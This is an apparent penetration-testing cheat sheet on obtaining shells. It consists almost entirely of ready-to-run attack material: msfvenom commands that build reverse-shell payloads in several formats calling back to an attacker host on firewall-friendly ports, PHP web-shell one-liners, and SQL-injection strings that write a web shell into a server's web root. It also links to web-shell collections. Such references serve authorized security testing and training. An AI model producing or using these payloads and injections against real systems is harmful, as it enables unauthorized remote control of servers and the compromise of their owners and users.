 # Shells 

# Reverse Shell Generator 
https://dc20e6.ru/tools/reverse-shell-generator 


https://gist.github.com/rshipp/eee36684db07d234c1cc 



Set your Netcat listening shell on an allowed port
Use a port that is likely allowed via outbound firewall rules on the target network, e.g. 80 / 443

# Msfvenom
#Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f elf > shell.elf
# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f raw > shell.php
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f asp > shell.asp
# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f war > shell.war
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f raw > shell.jsp
# Exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=445 -f exe -o shell_reverse.exe

# Interactive TTY Shell
# python
python -c 'import pty; pty.spawn("/bin/sh")'
# Echo
echo 'os.system('/bin/bash')'
# sh
/bin/sh -i
# bash
/bin/bash -i

# PHP
<?php system($_GET["cmd"]); ?>
<?php echo shell_exec($_GET["cmd"]); ?>




# Shell From SQL Injection
# windows
?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
# linux
?id=1 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'




# Other Reverse Shell references
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://resources.infosecinstitute.com/icmp-reverse-shell/#gref

https://highon.coffee/blog/reverse-shell-cheat-sheet/

http://pentestmonkey.net/tools/web-shells/php-reverse-shell

http://pentestmonkey.net/tools/web-shells/perl-reverse-shell

https://github.com/BlackArch/webshells

https://github.com/tennc/webshell/tree/master/php/b374k

https://github.com/tennc/webshell/tree/master/php/PHPshell/c99shell

http://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/

http://securityweekly.com/2011/10/23/python-one-line-shell-code/
